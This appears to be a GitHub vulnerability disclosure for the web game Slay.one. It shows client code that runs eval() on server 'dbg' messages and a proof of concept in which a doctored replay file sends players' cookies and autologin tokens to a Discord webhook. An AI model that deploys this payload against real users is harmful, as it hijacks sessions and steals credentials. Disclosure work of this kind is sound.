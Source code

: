 
![Logo](./logo.png)

# Exploit Report 'dbg' 
---
## Introduction 
[Slay.one](https://slay.one) is a popular web-based, top-down pixel shooter game. Despite its engaging gameplay, it suffers from a serious vulnerability that exposes users to cross-site scripting (XSS) attacks. This report outlines the nature of the vulnerability, how it can be exploited, and recommendations for mitigating the risk.

## Proof of Concept (PoC)
The vulnerability resides in the `client-bundle.js` file, specifically in the code responsible for processing WebSocket messages from the server. The problematic section of code is as follows:

```javascript
else if ("dbg" === arr[0]) // 'dbg' packet sent from the server
    try {
        eval(msg.substring(4)); // eval() allows arbitrary code execution
    } catch (e) {}
```

Here, the use of `eval()` poses a critical security risk, as it allows the execution of arbitrary JavaScript code passed within WebSocket messages.

### Exploitation
Attackers can exploit this vulnerability using Slay.one's replay feature, which lets users download and upload game replays. A replay file can be modified to include malicious code that executes in the victim’s browser when the file is uploaded and viewed.

### Proof of Concept Code
The following example demonstrates how an attacker could edit a replay file to exploit this vulnerability. When the replay is loaded, the malicious code steals the user’s cookies and authentication tokens, sending them to a Discord webhook.

#### Malicious Code Example
```javascript
dbg$fetch('https://discord.com/api/webhooks/{webhookID}/{webhookToken}', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        content: 'Stolen Cookies: ' + document.cookie + 
                 ' Login Token: ' + localStorage.autologin
    })
});
```

### Impact
Exploiting this vulnerability allows attackers to:
1. **Hijack user sessions**: Stolen cookies can be used to impersonate users.
2. **Steal sensitive information**: Attackers can access authentication tokens stored in `localStorage`.
3. **Execute arbitrary code**: This can lead to additional compromises, including malware delivery or unauthorized actions.

## Recommendations for Mitigation
To address this vulnerability and improve overall security, the following measures are recommended:

1. **Eliminate `eval()` usage**: 
2. **Validate and sanitize inputs**
3. **Implement Content Security Policy (CSP)**
4. **Enhance WebSocket security**: 

---

By implementing these measures, Slay.one can significantly reduce the risk of XSS attacks, providing a safer and more secure experience for its players.
